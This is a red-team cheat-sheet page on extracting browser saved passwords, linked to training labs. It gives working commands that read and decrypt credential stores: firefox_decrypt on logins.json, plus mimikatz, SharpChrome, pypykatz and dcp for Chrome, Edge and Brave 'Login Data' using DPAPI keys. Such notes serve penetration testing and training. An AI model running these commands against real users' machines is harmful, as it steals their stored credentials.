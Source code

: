 # Browser Saved Passwords

<div class="row row-cols-lg-2"><div>

#### Extract Firefox Saved Passwords

[![password_attacks](../../../_badges/htb/password_attacks.svg)](https://academy.hackthebox.com/course/preview/password-attacks)
[![glitch](../../../_badges/thm-p/glitch.svg)](https://tryhackme.com/r/room/glitch)
[![file_insecure_storage_1](../../../_badges/rootme/cryptanalysis/file_insecure_storage_1.svg)](https://www.root-me.org/en/Challenges/Cryptanalysis/File-Insecure-storage-1)

Mozilla Firefox passwords can be extracted and cracked using [firefox_decrypt](https://github.com/unode/firefox_decrypt) <small>(1.8k ⭐)</small>. To install it on Kali:

```ps
$ pipx install git+https://github.com/unode/firefox_decrypt.git
$ firefox_decrypt -h
$ firefox_decrypt /tmp/.mozilla/firefox/
```

Additional notes:

```ps
$ tar -cvf firefox.tgz .mozilla
$ ls -l .mozilla/firefox/ | grep default
$ cat .mozilla/firefox/xxx.default-release/logins.json | jq.
```

#### Extract Chrome Dictionaries

[![windows_privilege_escalation](../../../_badges/htb/windows_privilege_escalation.svg)](https://academy.hackthebox.com/course/preview/windows-privilege-escalation)

Users may have added some sensitive information inside their personal browser dictionary <small>(email/username/...)</small>.

```ps
PS> ls "$Env:localappdata/Google/Chrome/User Data/Default/Custom Dictionary.txt"
```
</div><div>

#### Extract Chrome, Edge, and Brave Saved Passwords

[![windows_privilege_escalation](../../../_badges/htb/windows_privilege_escalation.svg)](https://academy.hackthebox.com/course/preview/windows-privilege-escalation)
[![chrome](../../../_badges/thm-p/chrome.svg)](https://tryhackme.com/room/chrome)

On Windows, you can find the user browser sensitive files at:

```text!
AppData\Local\Microsoft\Edge\User Data
AppData\Local\Google\Chrome\User Data
AppData\Local\BraveSoftware\Brave-Browser\User Data\
```

* **Decrypt on Windows** using [decrypt-chrome-passwords](https://github.com/ohyicong/decrypt-chrome-passwords/) <small>(0.8k ⭐)</small>

* **Decrypt on Windows** [mimikatz](/cybersecurity/red-team/tools/utilities/creds/mimikatz.md)

For the current user, you can use:

```shell!
mimikatz# dpapi::chrome /in:"%localappdata%\Google\Chrome\User Data\Default\Login Data" /unprotect
```

* **Decrypt on Windows** using [SharpChrome](https://github.com/GhostPack/SharpDPAPI) <small>(1.0k ⭐)</small> | [compiled](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries)

```shell!
PS> .\SharpChrome.exe logins /unprotect
```

* **Decrypt on Linux** using [pypykatz](/cybersecurity/red-team/tools/utilities/creds/pypykatz.md)

Passwords are stored [SQLite](/programming-languages/databases/relational/dbms/sqlite.md) database in `./<profile>/Login Data` such as `./Default/Login Data`. They are encrypted using a base64-encoded key in `./Local State`. You can display it using:

```ps
$ cat "./Local State" | jq | grep "encrypted_key"
"encrypted_key": "<encrypted secret key here>"
```

On Windows, the key is encrypted using [DPAPI master key](/operating-systems/windows/security/index.md#dump-credentials-protected-by-the-dpapi). Once you got it, you can decrypt the database using [pypykatz](/cybersecurity/red-team/tools/utilities/creds/pypykatz.md):

```shell!
$ cat mkf # master kejson file created by pypykatz
{
    "backupkeys": {},
    "masterkeys": {
        "H-I-J-K-L": "master_key_here"
    }
}
$ pypykatz dpapi chrome ./mkf "./Local State" --logindata "./Default/Login Data"
```
</div></div>

<hr class="sep-both">

## Additional Notes

<div class="row row-cols-lg-2"><div>

#### DPAPI Master Key to extract Secret Key 

Once we have the DPAPI master key, we can alternatively decrypt the encrypted secret key, and use it to decrypt the passwords.

On Linux, we can use [dpapilab-ng](https://github.com/tijldeneut/dpapilab-ng/blob/main/blobdec-with-masterkey.py) <small>(0.1k ⭐)</small> to decrypt the secret key and [dcp](https://github.com/palmenas/dcp/tree/main) <small>(0.002k ⭐)</small> to decrypt and dump passwords.

```shell!
$ base64 -d > key.enc <<< "<encrypted secret key here>"
$ python -c "with open('key.enc', 'rb+') as f: data = f.read(); f.seek(0); f.write(data[5:]); f.truncate()" # remove the DPAPI text at the start of the file
$ pip install dpapick3
$ python3 blobdec-with-masterkey.py key.enc --masterkey "<master key here>"
<secret_key_here>
$ python3 dcp.py -S "<secret_key_here>" -P "./Default/Login Data"
```
</div><div>
</div></div>